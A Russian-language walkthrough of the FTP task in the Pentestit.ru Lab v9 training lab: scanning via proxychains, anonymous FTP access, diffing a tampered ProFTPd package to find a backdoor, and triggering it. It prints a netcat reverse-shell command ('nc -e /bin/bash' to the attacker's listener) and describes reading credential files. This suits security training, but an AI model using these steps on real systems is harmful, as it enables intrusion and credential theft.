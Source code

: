 ## Получение флага FTP в лаборатории Pentestit.ru Lab v 9

И так нашей следующей целью являетя FTP. Для того чтобы понять куда дальше двигаться, нам нужно получить возможности которые у нас есть на фтп. 

![VirtualBox_Kali2016.2_21_09_2016_00_04_37](imgs\VirtualBox_Kali2016.2_21_09_2016_00_04_37.png)

Просканируем этот хост посредством nmap через proxychains, выполним команду proxychains `nmap -sT -PN -n -sV 172.16.0.4` . Результат сканирования дал нам следующее:

![VirtualBox_Kali2016.2_21_09_2016_00_06_59](imgs\VirtualBox_Kali2016.2_21_09_2016_00_06_59.png)

У нас открыт порт 21 и 22, нас конечно же интересует порт 21, выбор у нас тут не большой. Пробуем использовать пароли, которые мы получили из бекапа паролей прокси ранее, для входа на ftp, но увы ни один не подходит. Тогда пробуем найти какой то эксплоит для версии ProFTPd, но увы все выглядит так как будт-то дырки пропатчены. Остается - анонимный вход. Пробуем - вводим команду `proxychains ftp -p 172.16.0.4` и в качестве логина вводим anonymous и радуемся сообщению системы что анонимный доступ разрешен, вводим любой пароль и входим на ftp. 

![VirtualBox_Kali2016.2_20_09_2016_21_59_57](imgs\VirtualBox_Kali2016.2_20_09_2016_21_59_57.png)

Далее нам нужно осмотреться и понять что у нас имеется в нашем распоряжении.  

![VirtualBox_Kali2016.2_20_09_2016_22_00_55](imgs\VirtualBox_Kali2016.2_20_09_2016_22_00_55.png)

И нашему вниманию предстает папка `dist`. Заглянем в нее!

![VirtualBox_Kali2016.2_20_09_2016_22_01_41](imgs\VirtualBox_Kali2016.2_20_09_2016_22_01_41.png)

А в ней deb пакет и архив с дистрибутивом proftpd. Вот спросите вы: "А зачем тут лежат эти файлы?". Меня это тоже удивило. Думаю на них стоит взглянуть, а нет ли в этих дистрибутивах каких либо изменений. 

Скачиваем эти дистрибутивы. Посредством `proxychains` это очень легко, так как работают все команды ftp так как будт-то мы внутри сети. Так что воспользовавшись командой get навзвание_файла (этих команд придется выполнить 2-е), выкачиваем сразу на свою машину эти два файла. 

![VirtualBox_Kali2016.2_20_09_2016_22_02_27](imgs\VirtualBox_Kali2016.2_20_09_2016_22_02_27.png)

Но для того чтобы сравнить и найти изменения в файлах нужно скачать аналогичный пакет с официальных репо.  ![VirtualBox_Kali2016.2_20_09_2016_22_07_40](imgs\VirtualBox_Kali2016.2_20_09_2016_22_07_40.png)

Проходимся по скачанным файлам binwalk убеждаемся что это архивы и deb пакет. 

![VirtualBox_Kali2016.2_20_09_2016_22_11_35](imgs\VirtualBox_Kali2016.2_20_09_2016_22_11_35.png)

Качаем оригинальный proftpd версии  1.3.5 - конечно же сам архив с исходниками весит намного меньше того файла что мы получили с ftp.

![VirtualBox_Kali2016.2_20_09_2016_22_13_30](imgs\VirtualBox_Kali2016.2_20_09_2016_22_13_30.png)

Кладем в одну папку оба файла и распаковываем их. После распаковки в дело вступает binwally - очень удобный инструмент для поиска различий в файлах написанны на python. Репозиторий тут https://github.com/bmaia/binwally

 ![VirtualBox_Kali2016.2_20_09_2016_23_49_50](imgs\VirtualBox_Kali2016.2_20_09_2016_23_49_50.png)

Выполняем команду python `binwally.py ~/PENTESTIT/analyze/proftpd-dfsg-1.3.5_orig ~/PENTESTIT/analyze/proftpd-dfsg-1.3.5_pentestit/ | grep -E -v "ignored|matches|unique"`  и получаем небольшой список отличающихся файлов и используя diff просмотриваем по аналогичным путям обе врсии файла. Просморев так много файлов я наткнулся на изменения в help.c и сравнив два файла - понял что искал именно это, так как в строке присутсвовало название организации большими буквами (потом узнал что другие искали по названию организации используя grep). Но в мою голову такая мысль не пришла и я сделал все как делают люди при анализе изменений, без всякого читерства и предположений.

![VirtualBox_Kali2016.2_20_09_2016_22_44_34](imgs\VirtualBox_Kali2016.2_20_09_2016_22_44_34.png)

Тут видно что при вводе команды CYBEAR32C как аргумент для команды help при соединении к ftp можно получить доступ к шеллу. Хм забавно запрятан бекдор, подумал я. И решил взглянуть на окружаюшие строки в help.c.

![VirtualBox_Kali2016.2_20_09_2016_22_46_05](imgs\VirtualBox_Kali2016.2_20_09_2016_22_46_05.png)

Открываем vim сразу на нужной строке 131, которая фигурирует в diff. 

![VirtualBox_Kali2016.2_20_09_2016_22_46_31](imgs\VirtualBox_Kali2016.2_20_09_2016_22_46_31.png)

вот измененный пакет и тут присутсвует эта строка, а ниже представлен оригинальный код.

![VirtualBox_Kali2016.2_20_09_2016_22_47_38](imgs\VirtualBox_Kali2016.2_20_09_2016_22_47_38.png)

Как видим срока отсуствует. Значит мы на правильном пути. Да уж очень интересно! Пробуем подконнектиться посредством telnet на 21 порт, так как тут также есть возможность работы через telnet соединение. Набираем команду `proxychains telnet 172.16.0.4 21` и попадаем на ftp. Теперь нам нужно проинспектировать работу команды `help CYBEAR32C`. 

![VirtualBox_Kali2016.2_20_09_2016_22_53_44](imgs\VirtualBox_Kali2016.2_20_09_2016_22_53_44.png)

Пытаемся набрать просто команду `CYBEAR32C`, но она без help не срабатывает. Тогда набираем команду `help CYBEAR32C` и наблюдаем очень странную картину. Вроде как очень похоже на шелл, но при вводе команд, не получается увидеть результата, т.е. вывода нет. Значит нам нужно попытаться при помощи nc организовать нормальный шелл. Для этого выпоним следующие действия:

![VirtualBox_Kali2016.2_20_09_2016_23_32_19](imgs\VirtualBox_Kali2016.2_20_09_2016_23_32_19.png)

 на машине ssh запускаем слушатель `nc -vlp 8989`, а из шелл запустить команду `nc -e /bin/bash 172.16.0.2 8989` . И у нас все получается с первого раза. Теперь у нас есть полноценный шелл и бекдор заложенный в ProFTPd работает!

![VirtualBox_Kali2016.2_20_09_2016_23_31_39](imgs\VirtualBox_Kali2016.2_20_09_2016_23_31_39.png)

Теперь как видим при вводе команды, вывод получается нормально! Теперь остается просмотреть файлы и определиться с содержимым, а также найти флаг!

![VirtualBox_Kali2016.2_20_09_2016_23_33_02](imgs\VirtualBox_Kali2016.2_20_09_2016_23_33_02.png)

Проходим по папкам и видим что есть интересные папки в которых можно поискать полезную информацию.  

![VirtualBox_Kali2016.2_20_09_2016_23_35_11](imgs\VirtualBox_Kali2016.2_20_09_2016_23_35_11.png)

К текущему моменту, когда я пишу прохождение в папке уже куча файлов созданных участниками. Но целевыми фалами тут являются `router-config.old` и `trouble.cap`.

![VirtualBox_Kali2016.2_20_09_2016_23_35_34](imgs\VirtualBox_Kali2016.2_20_09_2016_23_35_34.png)

Выполняем команду cat router-config.old и просмотриваем содержимое файла.

![VirtualBox_Kali2016.2_20_09_2016_23_36_52](imgs\VirtualBox_Kali2016.2_20_09_2016_23_36_52.png)

Ниже замечаем пароль и логин пользователя. 

![VirtualBox_Kali2016.2_20_09_2016_23_37_17](imgs\VirtualBox_Kali2016.2_20_09_2016_23_37_17.png)

Эти данные нам возможно пригодятся в будущем, но пока идем далее и продолжаем собирать инфомацию. Смотрим что же может быть интересного в trouble.cap и видим также логин и пароль пользователя `m.barry`, запоминаем, запимываем, складываем в отдельный документ все что нашли для будущего использования.

![VirtualBox_Kali2016.2_20_09_2016_23_41_52](imgs\VirtualBox_Kali2016.2_20_09_2016_23_41_52.png)

В этом дампе видим некое перемещение скрипта на python, пока что нет предположений для чего это нужно.

![VirtualBox_Kali2016.2_20_09_2016_23_43_16](imgs\VirtualBox_Kali2016.2_20_09_2016_23_43_16.png)

Идем дальше. Заходим в папку old и смотрим содрежимое файла ftp_test.txt и видим наш заветный флаг от FTP. Идем и фиксируем получение флага в профиле! И так у нас есть доступ к ftp, а также логин и пароль для доступа на роутер, но мы уже и так получли флаг CISCO. Так что эти данные могут нам пригодиться в других направлениях.

![VirtualBox_Kali2016.2_20_09_2016_23_45_23](imgs\VirtualBox_Kali2016.2_20_09_2016_23_45_23.png)

